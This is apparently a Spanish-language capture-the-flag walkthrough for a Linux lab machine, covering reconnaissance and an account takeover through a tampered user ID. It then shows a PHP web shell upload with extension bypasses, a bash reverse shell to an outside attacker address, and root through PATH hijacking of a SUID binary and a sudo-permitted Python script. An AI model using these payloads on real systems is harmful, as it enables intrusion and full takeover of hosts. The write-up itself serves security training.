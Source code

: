 ## Summary

Tags: #Linux #BurpSuite #PHP #RCE #ReverShell #Fuzzing #PathHijacking #SUID 

- IP -> 192.168.68.118
- Ports -> TCP (80, 22), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 ->  OpenSSH 8.2p1 
    - 80 -> Apache httpd 2.4.41

## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon

```bash
❯ arp-scan -I ens33 --localnet --ignoredups   # Buscas las IPs en tu red local 
```

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts       # Escaneo en la Capa 4 del modelo OSI

❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash
❯ whatweb ❮http://❮IP❯ -v

	# v = Miramos las cabeceras de la pagina web, las cuales aveces nos revelan cosas
```

Hacemos el registro en la web, luego ingresamos, miramos que podemos cambiar la passwd de nuestro usuario. 
Después, usamos Burpsuite para capturar el cambio de passwd. 

```bash 
❯ BurpSuiteCommunity &> /dev/null & disown    # Iniciamos el Burpsuite  
```

Miramos la captura del proxy y encontramos que además de la passwd podemos ver el 'ID', por lo que procedemos a cambiarlo por el 'ID=1' creyendo que este es el ID del usuario 'admin'. Vamos al portal de la web e ingresamos con el usuario 'admin' y la passwd que le colocamos en el Proxy del Burpsuite. 
Observamos que se pueden subir archivos, nos creamos un 'php' para poderlo subir. 

```php
❯ nano cmd.php

	<?php 
		echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
	?>
```

Subimos el php, pero hay una 'restricción', por lo que usamos de nuevo el Burpsuite, para capturar el momento en que se sube el archivo y así poder modificarle las extensiones. 

```bash 
# Diferentes extensiones PHP para subir 'Shells' maliciosas

* php
* php3
* php4
* php5
* pht
* phtm
* phtml
* phar
```

Ya que logramos subir el archivo 'php', buscamos la ruta para poder ejecutar el 'php' 
```bash 
❯ wfuzz -c --hc=404 --hh=12345 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt http://❮IP❯

# Encontramos los siguientes directorios: 'upload, config, js, css'
```

Hacemos lo siguiente en la URL, una vez que sabemos cual de todos los archivos es el que si es interpretado.
```bash 
❯ http://192.168.68.118/upload/cmd.phar?cmd=whoami     # Para ver si podemos ejecutar comandos de manera remota 

# Ahora colocaremos una Revershell a nuestra maquina de atacante 
❯ http://192.168.68.118/upload/cmd.phar?cmd=bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"

# Donde debemos de urlencodear el '&'
	& = %26
```

Nos colocamos en escucha antes de ejecutar la Revershell en la web. 
```bash
❯ nc -nlvp 443 
```

Hacemos el tratamiento de la TTY

```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

## User

Ahora somo el usuario 'www-data'

```bash 
❯ hostname -I
❯ whoami 
```

Nos dirigimos al usuario John para ver que hay en su '/home/Jhon'

```bash 
❯ ls - la 

# Encontramos varios archivos 'file.py, password, toto, user.txt' 
	# El archivo 'toto' tiene permisos SUID 
	# Los demas archivos son de Jhon 

# Al momento de ejecutar el archivo 
❯ ./toto    # Este archivo ejecuta el comando 'id' en Linux
```

Procedemos a hacer un **path hijacking**

```bash 
❯ touch id 
❯ chmod +x id

1. Despues de crearnos el archivo 'id' en el dir '/tmp', este contendra lo siguiente:
	❯ bash -p          # Hacemos esto para que cuando ejecutemos ./toto, como es SUID le dara privilegios a la bash 
2. Ahora hacemos el PathHijacking
	❯ export PATH=/tmp:$PATH
```

Ahora somo el usuario 'John'

```bash 
❯ ls -la 
❯ cat password         # Nos muestra una passwd = 'roo123'
❯ cat user.txt         # Podemos ver la flag de user.txt
❯ cat file.py          # Este archivo Python no contiene nada 
```

## Root

Nos conectamos por SSH con la passwd que encontramos.

```bash 
❯ ssh john@192.168.68.118    # Nos conectamos al usuario John 
```

Comandos para la escalada:

```bash 
❯ sudo -l           # Para ver si el usuario tiene permisos a nivel de sudoers

	(root) /usr/bin/python3 /home/john/file.py    # El archivo que esta en el /home de John lo podemos ejecutar como 'root'
```

```python
# Modificamos el archivo 'file.py'

❯ nano file.py         # Para hacer que el le de privilegios a la bash y asi convertirnos en root
	
	import os 
	os.system("bash -p")        
```

```bash
❯ sudo /usr/bin/python3 /home/john/file.py    # Asi ejecutamos el archivo de Python que hemos modificado 

❯ whoami    # Ahora somos root    
```